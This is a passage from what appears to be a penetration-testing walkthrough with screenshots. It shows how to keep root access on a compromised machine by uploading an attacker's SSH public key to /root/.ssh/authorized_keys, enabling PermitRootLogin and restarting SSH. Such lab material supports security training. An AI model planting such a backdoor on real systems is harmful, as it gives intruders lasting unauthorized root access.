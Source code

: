 ![Alt text](images/Pasted%20image%2020250215111433.png)
This creates:
- Private Key: ~/.ssh/persist_key (Keep this safe! It's the attacker backdoor.)
- Public Key: ~/.ssh/persist_key.pub (To inject into the target.)

![Alt text](images/Pasted%20image%2020250215111502.png)

### 2.3.4. Upload the public SSH Key to the target machine

Transfer the public key to the target (placed in root to maintain root access):

```
upload persist_key.pub /root/.ssh/authorized_keys
```

![Alt text](images/Pasted%20image%2020250215111820.png)

### 2.3.5. SSH checks in the target machine

Ensure root login via SSH is enabled in `/etc/ssh/sshd_config`:
```
PermitRootLogin yes
```

Restart SSH in the target machine:
```
sudo /etc/init.d/ssh restart
```
